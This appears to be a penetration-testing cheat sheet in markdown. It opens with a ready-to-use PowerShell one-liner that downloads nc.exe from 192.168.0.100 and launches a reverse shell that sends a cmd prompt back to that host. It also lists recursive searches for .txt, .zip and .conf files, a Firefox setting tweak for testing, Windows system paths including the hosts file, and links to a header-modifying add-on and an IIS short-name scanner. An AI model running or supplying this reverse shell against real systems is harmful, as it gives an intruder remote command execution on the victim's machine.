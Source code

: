 reverse shell

```powershell
powershell -c "IEX(New-Object System.Net.WebClient).DownloadFile('http://192.168.0.100/nc.exe', 'C:\users\XXX\desktop\nc.exe');C:\users\XXX\desktop\nc.exe 192.168.0.100 80 -e cmd"
```

find specific files

```powershell
Get-ChildItem -Path "C:\Folder" -Recurse -Force -Filter "*.txt"
Get-ChildItem -Path "C:\Folder" -Recurse -Force -Include "*.txt","*.zip","*.conf"
```

### :open_file_folder: Firefox

disable search in address bar function, easier to test

```
type in searchBar "about:config"
Accept warning
Search "keyword.enabled" and change it to false
```

modify header tool (or Burp Suite)

https://addons.mozilla.org/en-US/firefox/addon/simple-modify-header/

### :open_file_folder: others

```
C:\Windows\SysWOW64
C:\Windows\System32
C:\Windows\System32\drivers\etc\hosts
```

### :open_file_folder: [IIS-ShortName-Scanner](https://github.com/irsdl/iis-shortname-scanner)
